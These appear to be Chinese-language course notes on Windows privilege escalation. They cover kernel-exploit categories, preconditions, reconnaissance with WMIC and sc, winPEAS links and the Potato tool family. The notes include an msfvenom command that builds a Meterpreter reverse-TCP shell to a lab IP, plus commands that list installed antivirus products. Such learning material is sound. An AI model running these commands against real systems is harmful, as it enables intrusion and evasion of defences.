







- 参考 b站 蚁景网安 windows 提权


## 0x01 提权类别

1. 内核提权
   - ms06-067
   - Ms10-084
   - Ms11-014
   - ……

1. 应用程序提权


## 0x02 提权条件

1. 拥有普通账号权限
2. 拥有某些软件的账号密码
3. 本地或者远程服务器上存在漏洞
4. 拥有漏洞利用工具代码


## 0x03 提权思路

- 前期信息收集

- Meterpreter提权

- Windows系统内核漏洞

  > 内核漏洞利用比较简单

- Windows服务漏洞

  > 大概率找不到

- Windows注册表


## 0x04 信息收集

### 一. 模拟WebShell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.246.149 LPORT=6666 -f exe -o shell.exe
```



获取到一个普通用户的shell





### 二. WMIC 信息收集

1. 补丁信息

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```




2. 查看安装了哪些杀软

````
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
````



查看杀软安装路径

```
WMIC /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
```



3. 组


### 三. sc 信息收集

查看所有服务

```
sc query state=all
```

服务的详细信息

```bash
sc qc 服务名
```




### 四. 脚本信息收集

- https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASbat/winPEAS.bat
- https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat


### 五. 提权工具脚本

Potato家族：

- Rottern Potato(烂土豆) 本地提权至SYSTEM
- Orogin Potato
- Rogue Potato